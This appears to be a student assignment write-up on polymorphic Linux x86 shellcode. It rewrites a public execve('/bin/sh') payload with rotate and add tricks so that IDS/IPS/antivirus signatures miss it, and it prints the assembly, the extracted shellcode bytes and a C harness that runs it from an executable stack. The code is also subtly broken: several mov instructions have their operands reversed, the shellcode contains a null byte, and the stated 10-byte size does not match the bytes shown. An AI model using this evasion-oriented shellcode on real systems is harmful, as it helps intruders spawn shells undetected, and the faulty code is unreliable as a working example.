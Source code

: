 # Assignment-VI - Polymorphic Shellcode

Introduction
Polymorphism is the ability of an object to take on many forms. For pushing the value 0x6e69622f(nib/) into the stack will alert the IPS/AV. Instead we can go around the clock and push the dword 0x6e69622e and add a corresponding 0x00000001 so that it will be hard for the IDS/IPS/AV to detect the code for any possible execves.


### Challenge 1 : Analyzing Linux x86 execve("/bin/sh") - 28 bytes
http://shell-storm.org/shellcode/files/shellcode-811.php

This is an execve("/bin/sh") of 28 byte. Let's check the assembly code.

```
08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80
 ```
 
 So the modified code looks as follows :

 ```
global _start

section .text

_start:

xor    eax, eax      ; zero our eax
push   eax

; push   0x68732f2f

mov eax, 0xd0e65e5e
ror eax, 1                       ; shift the register by 1 ro right
push eax

; push   0x6e69622f
add eax, 0x5f63300               ; add 5f63300 to eax register to push 6e69622f                                       
push eax

mov    esp,ebx
mov    eax,ecx
mov    eax,edx
mov    al,0xb
int    0x80

; End section for exit call
xor    eax,eax
inc    eax
int    0x80
 ```
 
 Here I have done two few changes to the code : 
 
 1) The eax register for both 0x68732f2f is first brought to it's original form by first ROR the register by left.
 2) For this research, I have used bit shift calculator and shifted the accumulator by 1.
 3) Use the same method, I have added ror by 1 to shift the register back to it's original form to perform execve.
 4) Next, I have added 5f63300 to the accumulated eax to achieve 6e69622f instead of directly pushing it to the register.
 
 Compile the code using the "./compile.sh execve-modified".
 
 Use the following objdump to retrieve the shellcode of the nasm file.
  ```
 objdump -d ./execve-modified|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
  ```
  
shellcode : "\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

Now copy the obtained shellcode and provide it in the shellcode.c 
 ```
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xb8\x5e\x5e\xe6\xd0\xd1\xc8\x50\x05\x00\x33\xf6\x05\x50\x89\xdc\x89\xc8\x89\xd0\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
  ```

Compiling the shellcode using -z execstack ( gcc -fno-stack-protector -z execstack ) and run the shellcode file.

The observed size of shellcode : 10 bytes
